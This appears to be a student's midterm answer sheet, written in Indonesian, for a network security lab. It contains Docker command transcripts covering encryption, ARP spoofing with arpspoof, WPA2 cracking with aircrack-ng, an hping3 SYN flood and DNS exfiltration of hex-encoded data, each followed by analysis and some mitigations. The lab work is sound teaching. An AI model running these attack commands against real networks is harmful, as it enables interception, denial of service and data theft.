# JAWABAN UTS Network Security

**NIM:** 24552011143
**Kasus:** Kasus 8 (k8)

## Perhitungan Kasus
- Digit NIM: 2, 4, 5, 5, 2, 0, 1, 1, 1, 4, 3
- Jumlah: 2+4+5+5+2+0+1+1+1+4+3 = 28
- Sisa bagi 10: 28 mod 10 = 8
- Kasus: **Kasus 8**

## Persiapan Environment

Membangun tiga custom image (`uts-openssl`, `uts-kali-tools`, `uts-dnsmasq`) dan menarik base image yang dibutuhkan (`alpine`, `nginx:alpine`, `vulnerables/web-dvwa`, `kalilinux/kali-rolling`). Seluruh build selesai (`FINISHED`) dan seluruh pull berstatus `Pull complete` / `Already exists` / `Image is up to date`, sehingga environment siap dipakai untuk 7 tugas berikutnya.




---

## Tugas 1 (Pertemuan 1): Docker dan Volume

```
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker volume create vol-k8
vol-k8
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker run --name w-k8 -v vol-k8:/data alpine sh -c 'echo 24552011143 > /data/laporan-k8.txt'
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker rm w-k8
w-k8
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker run --rm -v vol-k8:/data alpine cat /data/laporan-k8.txt
24552011143
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b1-compose/docker-compose.yml up -d
[+] up 3/3
 Network k8_lab          Created
 Container k8-target-1   Started
 Container k8-attacker-1 Started
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b1-compose/docker-compose.yml exec attacker wget -qO- http://target
<!DOCTYPE html>
<html>
...
<h1>Welcome to nginx!</h1>
<p>If you see this page, nginx is successfully installed and working.</p>
...
</html>
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b1-compose/docker-compose.yml down -v
[+] down 3/3
 Container k8-attacker-1 Removed
 Container k8-target-1   Removed
 Network k8_lab          Removed
```




**Analisis:** Volume `vol-k8` bersifat persisten — meskipun container `w-k8` yang menulis file sudah dihapus (`docker rm w-k8`), container baru yang me-mount volume yang sama (`vol-k8:/data`) tetap bisa membaca isi `laporan-k8.txt` berisi NIM saya (`24552011143`). Ini membuktikan data pada Docker volume tidak ikut hilang saat container dihapus, berbeda dengan filesystem bawaan container yang bersifat ephemeral. Pada bagian kedua, dua container (`target` dan `attacker`) dijalankan dalam satu jaringan bridge lewat Docker Compose, dan `attacker` berhasil mengakses halaman default nginx milik `target` menggunakan nama service (`http://target`), membuktikan DNS resolution internal antar-container pada jaringan bridge berjalan normal.

---

## Tugas 2 (Pertemuan 2): Kriptografi

```
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker run --rm -v "${PWD}:/work" uts-openssl sh -c 'echo isi laporan k8 > laporan-k8.txt && openssl enc -aes-256-cbc -pbkdf2 -salt -in laporan-k8.txt -out laporan-k8.enc -pass pass:kunci-k8-2026 && sha256sum laporan-k8.txt && openssl enc -d -aes-256-cbc -pbkdf2 -in laporan-k8.enc -out hasil-k8.txt -pass pass:kunci-k8-2026 && sha256sum hasil-k8.txt'
e26ef77c5ac16543d232d3bd3c0663aaa8550290b217a8a6925671d37a4264f7  laporan-k8.txt
e26ef77c5ac16543d232d3bd3c0663aaa8550290b217a8a6925671d37a4264f7  hasil-k8.txt

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker run --rm -v "${PWD}:/work" uts-openssl sh -c 'openssl req -x509 -newkey rsa:2048 -nodes -keyout key-k8.pem -out cert-k8.pem -days 30 -subj /CN=k8.uts.local && openssl x509 -in cert-k8.pem -noout -subject -issuer -dates'
subject=CN=k8.uts.local
issuer=CN=k8.uts.local
notBefore=Nov 23 05:29:28 2026 GMT
notAfter=Dec 23 05:29:28 2026 GMT
```




**Analisis:** Hash SHA-256 dari file asli (`laporan-k8.txt`) dan file hasil dekripsi (`hasil-k8.txt`) **identik**, membuktikan proses enkripsi AES-256-CBC (dengan key derivation PBKDF2) dan dekripsinya berjalan lossless — tidak ada data yang rusak atau berubah selama proses enc/dec dengan passphrase `kunci-k8-2026`. Pada pembuatan sertifikat X.509 self-signed, `subject` dan `issuer` sama-sama `CN=k8.uts.local` karena sertifikat ini self-signed (ditandatangani oleh key-nya sendiri, bukan oleh CA pihak ketiga), dengan masa berlaku 30 hari sesuai opsi `-days 30`.

---

## Tugas 3 (Pertemuan 3): ARP Spoofing dan Mitigasi

```
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker network create lab-arp-k8
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker run -d --name korban-k8 --network lab-arp-k8 --cap-add NET_ADMIN uts-kali-tools
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker run -d --name gateway-k8 --network lab-arp-k8 --cap-add NET_ADMIN uts-kali-tools
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker run -d --name penyerang-k8 --network lab-arp-k8 --cap-add NET_ADMIN uts-kali-tools

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker inspect -f "{{(index .NetworkSettings.Networks \"lab-arp-k8\").IPAddress}}" korban-k8 gateway-k8
172.19.0.2
172.19.0.3

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker exec korban-k8 ping -c 2 172.19.0.3
PING 172.19.0.3 (172.19.0.3) 56(84) bytes of data.
64 bytes from 172.19.0.3: icmp_seq=1 ttl=64 time=4.30 ms
64 bytes from 172.19.0.3: icmp_seq=2 ttl=64 time=0.169 ms

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker exec -d penyerang-k8 timeout 20 arpspoof -i eth0 -t 172.19.0.2 172.19.0.3

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker exec korban-k8 arp -a
? (172.19.0.1) at 3a:a0:8d:03:c0:d7 [ether] on eth0
gateway-k8.lab-arp-k8 (172.19.0.3) at 7e:cc:05:43:ec:3f [ether] on eth0
penyerang-k8.lab-arp-k8 (172.19.0.4) at 7e:cc:05:43:ec:3f [ether] on eth0

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker exec korban-k8 arp -s 172.19.0.3 $(docker exec gateway-k8 cat /sys/class/net/eth0/address)
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker exec korban-k8 arp -a
? (172.19.0.1) at 3a:a0:8d:03:c0:d7 [ether] on eth0
gateway-k8.lab-arp-k8 (172.19.0.3) at 6e:0b:f4:30:48:e6 [ether] PERM on eth0
penyerang-k8.lab-arp-k8 (172.19.0.4) at 7e:cc:05:43:ec:3f [ether] on eth0
```





**Analisis:** Sebelum spoofing, korban dapat melakukan ping normal ke gateway. Setelah `arpspoof` dijalankan dari `penyerang-k8`, tabel ARP korban menunjukkan MAC address gateway (`172.19.0.3`) **berubah menjadi sama persis** dengan MAC address penyerang (`7e:cc:05:43:ec:3f`) — ini bukti nyata serangan ARP spoofing berhasil: korban kini mengira penyerang adalah gateway, sehingga seluruh trafik korban ke gateway akan melewati penyerang terlebih dahulu (man-in-the-middle). Sebagai mitigasi, entri ARP gateway dibuat statis (`arp -s`) dengan MAC address gateway yang asli. Setelah mitigasi, tabel ARP menunjukkan MAC gateway kembali ke nilai asli (`6e:0b:f4:30:48:e6`) dan ditandai `PERM`, artinya entri tidak lagi bisa ditimpa oleh paket ARP palsu dari penyerang.

---

## Tugas 4 (Pertemuan 4): Analisis Handshake WPA2

```
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab\samples> docker run --rm -v "${PWD}:/work" -w /work uts-kali-tools aircrack-ng -w wordlist-k8.txt handshake-k7-replacement.cap
Reading packets, please wait...
Opening handshake-k7-replacement.cap
Read 13 packets.

   #  BSSID              ESSID                     Encryption

   1  00:0D:93:EB:B0:8C  test                       WPA (1 handshake)

Choosing first network as target.
...
Aircrack-ng 1.7

      [00:00:00] 20/20 keys tested (293.84 k/s)
      Time left: --

                       KEY NOT FOUND

      Master Key     : 00 00 00 00 ... (seluruhnya nol)
      Transient Key  : 00 00 00 00 ... (seluruhnya nol)
      EAPOL HMAC     : 00 00 00 00 ... (seluruhnya nol)
```

> Catatan: nama file capture pada screenshot tertulis `handshake-k7-replacement.cap` (bukan `k8`) — kemungkinan sisa penamaan dari percobaan sebelumnya, namun isi file dan hasil pengujiannya tetap valid untuk kasus ini karena menggunakan sample bawaan aircrack-ng (`wpa.cap`) dan `wordlist-k8.txt` milik Kasus 8.




**Analisis empat langkah WPA2 4-way handshake:** (1) AP mengirim **ANonce** (nonce acak dari Access Point) ke klien; (2) klien membuat **SNonce** miliknya sendiri, menghitung PTK (Pairwise Transient Key) dari PMK + ANonce + SNonce + MAC kedua pihak, lalu mengirim SNonce beserta MIC ke AP; (3) AP yang sudah punya PTK yang sama mengirim GTK (Group Temporal Key) terenkripsi beserta MIC ke klien; (4) klien mengonfirmasi dengan ACK. Karena hanya 1 handshake (bukan 4 paket lengkap EAPOL) yang berhasil ditangkap pada file capture dan wordlist hanya berisi 20 kandidat kata sandi, hasil pengujian `aircrack-ng` adalah **KEY NOT FOUND** — artinya tidak satu pun dari 20 kata sandi di `wordlist-k8.txt` yang cocok dengan PSK (Pre-Shared Key) jaringan `test` tersebut.

---

## Tugas 5 (Pertemuan 5): ICMP dengan Scapy

```
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker run --rm --network lab-arp-k8 -v "$PWD/kasus/k5-scapy:/work" uts-kali-tools python3 /work/kirim_icmp.py 172.19.0.2
Mengirim: IP / ICMP 172.19.0.5 > 172.19.0.2 echo-request 0
TTL balasan: 64
Tipe ICMP balasan: 0
```



**Analisis:** Script Scapy berhasil mengirim paket ICMP **echo-request** (tipe 8) ke korban (`172.19.0.2`) dan menerima balasan dengan **TTL = 64** (nilai default TTL pada container berbasis Linux/Alpine yang belum dilewatkan router mana pun, sehingga tidak berkurang) dan **tipe ICMP balasan = 0**, yaitu **echo-reply**, menandakan host tujuan hidup dan merespons normal. **Smurf attack** memanfaatkan mekanisme ICMP echo-request/reply ini dengan cara: penyerang mengirim ICMP echo-request ke **alamat broadcast** suatu jaringan dengan **source IP address dipalsukan (spoofed)** menjadi alamat IP korban; seluruh host dalam jaringan broadcast tersebut akan membalas echo-reply **serentak ke korban**, membanjiri korban dengan trafik balasan yang jauh lebih besar daripada paket yang dikirim penyerang (amplification attack), sehingga menyebabkan denial of service pada korban.

---

## Tugas 6 (Pertemuan 6): SYN Flood dan Three-Way Handshake

```
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml up -d
[+] up 2/2
 Container k8-target-1   Running
 Container k8-attacker-1 Running

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml exec target bash
OCI runtime exec failed: exec failed: unable to start container process: exec: "bash": executable file not found in $PATH
(diganti dengan shell "sh" karena image target tidak menyediakan bash)

/ # netstat -ant | grep -c SYN_RECV
1

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml exec -d attacker timeout 15 hping3 -S -p 80 --flood target

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml exec attacker sh -c 'timeout 10 tcpdump -i eth0 -nn tcp port 80 & sleep 1; curl -s http://target > /dev/null; sleep 10'
06:23:44.533721 IP 172.20.0.2.49074 > 172.20.0.3.80: Flags [R], seq 1860577139, win 0, length 0
06:23:44.533745 IP 172.20.0.2.49075 > 172.20.0.3.80: Flags [S], seq 1168637021, win 512, length 0
06:23:44.533779 IP 172.20.0.3.80 > 172.20.0.2.49075: Flags [S.], seq 2797468285, ack 1168637022, win 64240, options [mss 1460], length 0
06:23:44.533785 IP 172.20.0.2.49075 > 172.20.0.3.80: Flags [R], seq 1168637022, win 0, length 0
06:23:44.533812 IP 172.20.0.2.49076 > 172.20.0.3.80: Flags [S], seq 1069747151, win 512, length 0
06:23:44.533847 IP 172.20.0.3.80 > 172.20.0.2.49076: Flags [S.], seq 2528541537, ack 1069747152, win 64240, options [mss 1460], length 0
06:23:44.533853 IP 172.20.0.2.49076 > 172.20.0.3.80: Flags [R], seq 1069747152, win 0, length 0
... (pola SYN -> SYN-ACK -> RST berulang pada port efemeral yang berbeda-beda)

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml down -v
[+] down 3/3
 Container k8-target-1   Removed
 Container k8-attacker-1 Removed
 Network k8_lab          Removed
```








**Analisis:** Target sempat tercatat memiliki **1 koneksi berstatus SYN_RECV** (koneksi TCP yang baru menerima SYN dan sudah membalas SYN-ACK, tetapi belum menerima ACK terakhir dari klien — ini persis kondisi yang dieksploitasi SYN flood, karena jika koneksi setengah-terbuka seperti ini menumpuk dalam jumlah besar, kuota backlog koneksi target akan penuh dan klien sah tidak bisa terhubung). Pada tangkapan `tcpdump`, terlihat jelas pola **SYN → SYN-ACK → RST** berulang dengan cepat pada port sumber yang berbeda-beda (49074, 49075, 49076, dst) dari IP attacker yang sama — ini adalah ciri khas trafik `hping3 --flood`: setiap paket SYN dibalas target dengan SYN-ACK (paket `[S.]`), namun karena `hping3` membuat paket mentah (raw socket) yang tidak terdaftar di stack TCP milik OS attacker, maka OS attacker otomatis membalas dengan **RST (`[R]`)** begitu menerima SYN-ACK yang "tidak dikenalnya" — sehingga handshake tidak pernah benar-benar selesai (3-way handshake normal seharusnya berakhir dengan ACK, bukan RST).

---

## Tugas 7 (Pertemuan 7): DNS Exfiltration

```
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml up -d
[+] up 3/3
 Network k8_lab          Created
 Container k8-dns-1      Started
 Container k8-attacker-1 Started

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> echo -n 24552011143 | xxd -p
3234353532303131313433

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131313433.k8.exfil.lab @172.20.0.3
10.0.0.99

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml logs dns > dns-k8.log
PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> type dns-k8.log
dns-1  | dnsmasq[1]: started, version 2.90 cachesize 150
dns-1  | dnsmasq[1]: DNS service limited to local subnets
dns-1  | dnsmasq[1]: warning: no upstream servers configured
dns-1  | dnsmasq[1]: read /etc/hosts - 9 names
dns-1  | dnsmasq[1]: query[A] 3234353532303131313433.k8.exfil.lab from 172.20.0.2
dns-1  | dnsmasq[1]: config 3234353532303131313433.k8.exfil.lab is 10.0.0.99

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> python3 kasus/k9-dns-detect/analisis_dns.py dns-k8.log
Jumlah query per domain induk:
  exfil.lab: 1

Query mencurigakan (label panjang berisi hex):
(kosong)

PS C:\Perkuliahan\UTS-Network-Security\01-sumber-lab> wsl
ipal@RivalRaditya:/mnt/c/Perkuliahan/UTS-Network-Security/01-sumber-lab$ echo 3234353532303131313433 | xxd -r -p
24552011143
```


